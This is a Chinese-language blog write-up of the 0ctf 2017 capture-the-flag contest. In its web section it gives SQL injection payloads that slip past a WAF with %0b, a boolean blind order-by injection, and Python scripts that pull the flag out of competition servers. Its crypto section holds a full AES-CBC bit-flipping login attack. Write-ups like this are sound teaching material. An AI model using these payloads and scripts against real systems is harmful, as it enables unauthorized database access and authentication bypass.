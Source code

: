 ```yaml
---
title: 0ctf2017 writeup from cnss
pubDatetime: 2017-03-19 20:00:00
tags:
  - ctf
description: Already Archive Before 20230604
---
```


结果高校第 9, 水啊

<!--more-->

### Web

#### simplesqlin

`id`先丢 sqlmap,发现能跑出来数据库名`news`

`order by 4` 500, `order by 3`正常

绕 waf 试试看, 发现简单的 select,from 通过%0b 即可绕过

`select` -> `sele%0bct`

直接 `id=-1 union sel%0bect 1,flag,3 fro%0bm news.flag`猜测表名和字段为 flag

`flag{W4f_bY_paSS_f0R_CI}`

#### Temmo's Tiny Shop

中午起床解这个题, login 那里上午有 bug,直接 admin 密码空可以进(其实这里面有竞争条件去买 8000 的 hint),看到 info 提示的内容(中间还换过一个表名)

`OK! Now I will give some hint: you can get flag by use \`select flag from ce63e444b0d049e9c899c9a0336b3c59\``

然后写个脚本测试一下 waf 的字符

```python
#!/usr/bin/python3
import re
import string
import requests as r

url = 'http://202.120.7.197/app.php?action=search&keyword=INT&order='
headers = {
	'Cookie': "PHPSESSID=tbuidum4os7k89q7dun6oms200",
}
NOWAF = []
WAF = []
for i in string.punctuation + string.ascii_letters:
	getter = r.get(url + i, headers=headers).text
	if 'error occurs or no result here' in getter:
		NOWAF.append(i)
		print('NoWAF: ' + i)
	elif 'WAF' in getter:
		WAF.append(i)
		print('WAF: ' + i)
	else:
		print(getter)
		exit()
print(WAF)
print(NOWAF)
```

发现只有`#,()`和字母可以用,关键词没测,用的时候再说

尝试了一些传参数的位置, 因为不能单引号, 也绕不过这个 waf, 下手只能在搜索的`order`位置上,先通过`=1`和`=id`确认是`order by`注入,通过顺序不同考虑 bool 注入

注册一个新号防干扰, 买 1600 和 300 的, 通过利用`field(price, 1600, 300)`和`field(price, 1600, 1)`返回的 goods 顺序不同,构造 payload

`order=field(price,1600,if(mid((select(flag)from(ce63e444b0d049e9c899c9a0336b3c59)),%d,1)like(%s),300,1))`

因为是 like, 不跑 2 分, 上多线程

```python
import requests as r
import gevent
from gevent.monkey import *

url = 'http://202.120.7.197/app.php?action=search&keyword=&order=field(price,1600,if(mid((select(flag)from(ce63e444b0d049e9c899c9a0336b3c59)),%d,1)like(%s),300,1))'
def run(k):
#	print('----%d----' % k)
	a = 0
	for i in range(0, 255):
		if a == 4:
			break
		s = r.get(url % (k,hex(i)), headers=headers).text
	#	print(s)
		if '"goods":[{"id":"6","' not in s:
			print('%d: %s' % (k, chr(i)))
			a += 1
		else:
			continue

gevent.monkey.patch_socket()
gevent.monkey.patch_ssl()

threads = [gevent.spawn(run, i) for i in range(6,31)]
gevent.joinall(threads)
```

拿到每一位去掉`%_`,得到大小写不明的`flag{r4ce c0nditi0n i5 excited}`

尝试用 ascii 判断 ascii 码, 发现(长度)被 WAF, 先试一下 flag 对不对再说

中间补上`_`, 小写尝试一下, flag 正确

### Misc

#### Welcome

IRC 即时聊天，访问 freenode 网站进入聊天室，获得 flag
http://webchat.freenode.net/?randomnick=0&channels=#0ctf2017

### Crypto

#### integrity

题目流程：

1. 首先随机 key
2. register： 输入 name，首先对 name 补足后缀，随机 iv，返回 AES_CBC( md5(name) || name ) 作为 secret
3. login： 用户输入 secret，按 register 逆着解码得到 name，若为 admin，则给出 flag

其中限制：输入的 name 长度不大于 32，且对 name 有 strip() 操作。

我们的目标为 admin，对此构造 name，并预先计算补全与 md5 值。

```python
name = "admin" + "\x0b" * 11 + suffix  # suffix 为任意长度小于 16 的字符串，我取的是 suffix = "admin"）
goal = "admin"  # 目标为 admin

pad_name = pad(name)  # "admin" + "\x0b" * 11 + "admin" + "\x0b" * 11
pad_goal = pad(goal)  # "admin" + "\x0b" * 11

md5_name = md5(name).digest()
md5_goal = md5(goal).digest()
```

提交 name 后获得一个代表了 64 字节的 secret，取出 iv 和 前两组密文，即前 48 字节，有一组 iv，一组 md5 值，一组一半的 name（即 pad_goal）。
其中第三组已符合要求，对于第二组，修改第一组的 iv 进行比特翻转攻击：iv = iv ⊕ md5_name ⊕ md5_goal
三组重新组合后 login 即可获取 flag

完整脚本：

```python
import hashlib
import socket
import time
import binascii


BS = 16
pad = lambda s: s + (BS - len(s) % BS) * chr(BS - len(s) % BS)
def md5(s):
    return hashlib.md5(s.encode()).digest()
def send(m):
    if isinstance(m, str):
        m = m.encode()
    print("send:", m)
    s.send(m)
def rec():
    m = s.recv(1024)
    print("recv:", m)
    return m


s = socket.socket()
s.connect(('202.120.7.217', 8221))
time.sleep(0.5)
md5_goal = [int(x) for x in md5("admin" + "\x0b" * 11)]
md5_name = [int(x) for x in md5("admin" + "\x0b" * 11 + "admin" + "\x0b" * 11)]

rec()
send("r\n")
send("admin" + "\x0b" * 11 + "admin\n")
rec()

data = rec().decode().replace('\n', '')
secret = [0] * 48
for i in range(0, 48):
    secret[i] = int(data[(i << 1): (i << 1) + 2], 16)
new_secret = [secret[i] ^ md5_goal[i] ^ md5_name[i] for i in range(16)] + secret[16:]
ans = b""
for x in new_secret:
    ans += bytes([x])

send("l\n")
send(binascii.b2a_hex(ans) + b"\n")
rec()
rec()
s.close()

```

### Reverse

#### Choices

看了一下 text 里的命令行，这是是一个 pass，llvm 的 pass，估计是做混淆的，看到 flatten 这个函数名，估计是拿 ollvm 改了改，获得源码一对照就知道改了什么地方。

Flatten 算法实现http://ac.inf.elte.hu/Vol_030_2009/003.pdf ,他修改的地方就是原本自动修改的控制控制流的值变成由用户输入了，那么我还原出这个值序列即可，通过逆向我们知道了值序列的生成算法，那么我们就可以生成一个值序列了。以这个作为输入即可。
